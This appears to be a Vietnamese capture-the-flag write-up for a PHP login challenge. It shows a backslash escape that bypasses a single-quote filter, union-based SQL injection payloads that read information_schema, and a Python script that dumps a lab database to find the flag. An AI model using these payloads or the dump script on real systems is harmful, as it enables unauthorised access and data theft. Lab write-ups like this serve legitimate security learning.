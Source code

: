 # [Chung Kết] Web: Cửa hàng đồ chơi Quận 4

## Cái gì đếy?

![chall](./images/chall.png)

Đây là một bài SQLi khá là cơ bản nhưng mà không hiểu vì lí do gì mình lại stuck khá lâu ở bài này. Có lẽ mình đã già .__.

## Phân tếch

Khi mình vừa bấm vào link thì sẽ có một cái trang login spot ra trông như thế lày:

![login](./images/login.png)

Các bạn để ý thì sẽ thấy có một cái button `Xem mã nguồn` sẽ dẫn mình đến source code của phần login.

```php
<?php
    if (isset($_GET['source'])) { 
        highlight_file(__FILE__); 
        die(); 
    }
    include("config.php");
    session_start();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        try {
            // Vậy chắc an toàn rồi!
            if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

            $sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
        } catch(PDOException $e) {
            $message =  "Ôi không, có gì đó sai sai. Hãy thử lại vào lúc khác nha 😅";
        }
    }
    if (isset($_SESSION['username']))
        die(header("location: shopping.php"));
?> 

```

Ở đây, mình đetéct được một đoạn vunerable code:

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Trông có vẻ như `preg_match` chỉ filter dấu `'` thôi nên mọi chuyện khá ez xD.

## Solútion

### Bypass login fỏm

Quay lại đoạn check login phía bên trên, khi mình thử nhập tên là `admin` và mật khẩu là `12345` thì đoạn query sẽ trông như sau:

```php
select username from users where username='admin' and password='12345'
```

Vì không thể dùng `'` như bình thường được nên mình dùng dấu `\` để escape luôn dấu `'` ngay phần `username`, sau khi nhập tên là `\` thì đoạn query sẽ trở thành như thế này:

```php
select username from users where username='\' and password='12345'
```

Bạn thấy chứ? Đoạn mật khẩu `12345` mình vừa nhập đã chui ra khỏi string. Từ đó mình có đoạn injection như sau:

```sql
username: \
password: or username="admin"#
```

Bùm, không có flag :<

![shop](./images/shop.jpg)

### Blind SQL Injection

Vì không thấy flag nên mình đoán là flag sẽ là password của `admin` hoặc là username/password của một user nào đó. Dự là như vậy nên mình dùng `Blind SQLi` để bruteforce password.

> Chả hiểu sao khúc này mình lại đi brutefỏce trong khi có thể dùng `union select` =))

Sau một hồi loay hoay thì mình nhận được password của `admin` chính là `admin` và vẫn chưa thấy flag. Tuyệt :>

![dog](./images/dog.jpg)

### Digging into database

Có vẻ như dòng chữ `Xin chào admin.` ở trên kia là nơi trả về kết quả của đoạn query hồi nãy. Thử query `version()` thì mình nhận được:

```sql
union select version()#
```

![version](./images/version.jpg)

`8.0.26`? Là version của MySQL nên mình có thể dùng hàm `group_concat` được.
Mình quyết định tìm kiếm trong các table khác và nhận được một đống table có vẻ như không liên quan.

```sql
union select group_concat(table_name) from information_schema.tables#
```

![tables](./images/tables.jpg)

Mình không biết dùng `sqlmap` nên chỉ thử được một vài table. Nhiều quá nên mình viết hẳn một cái script để dump luôn database. Sau khi dump xong mình vẫn không tìm thấy flag ?? :) ??

![cat](./images/cat.jpg)

Và mình rơi vào betak.

### Database nào cơ????

![hint](./images/hint.png)

Sau khi nhận được hint từ anh `nyancat` thì mình mới nhớ ra trong một hệ quản trị CSDL có nhiều database khác nhau và mình vừa tìm flag ở trong một cái database lạ hoắc .__. *sosadboiz...*

Oce let's try it.

```sql
union select database()#
```

Seem good ;3

![db](./images/db.jpg)

Mình dùng luôn đoạn script lúc nãy để dump cái `myDB` này, mình đã quá mệt mỏi rồi :<<

```python
import requests
import json
import re

URL = 'http://shop.kid.cyberjutsu-lab.tech/login.php'

def query(cmd):
    r = requests.post(URL, data={
        'username': '\\',
        'password': cmd + '#'
    })
    try:
        return re.findall('Xin chào (.*).\\r', r.text)[0].split(',')
    except:
        return None

def list2dict(a):
    if a:
        return { x: None for x in a }
    else:
        return None

db = list2dict(query('union select group_concat(table_name) from information_schema.tables where table_schema=database()'))

for table_name in db.keys():
    print('querying:', table_name)
    columns = list2dict(query(f'union select group_concat(column_name) from information_schema.columns where table_name="{table_name}"'))
    db[table_name] = columns

    for column_name in columns:
        print(f'querying: {table_name}.{column_name}')
        values = query(f'union select group_concat({column_name}) from {table_name}')
        db[table_name][column_name] = values

with open('db.json', 'w') as w:
    w.write(json.dumps(db, indent=4, sort_keys=True))
```

Mở file `db.json` lên và mình tìm thấy flag... ***p r 0 v j p***

```json
{
    "authors": {
        "added": null,
        "birthdate": null,
        "email": null,
        "first_name": null,
        "id": null,
        "last_name": null
    },
    "flag_304ad593": {
        "flag_3e53dc": [
            "CTF{pleAs3_doNt_r3invent_th3_whe3L}"
        ]
    },
```

Flag:

```
CTF{pleAs3_doNt_r3invent_th3_whe3L}
```

That's end. Hy vọng bạn thích bài viết này của mình <3
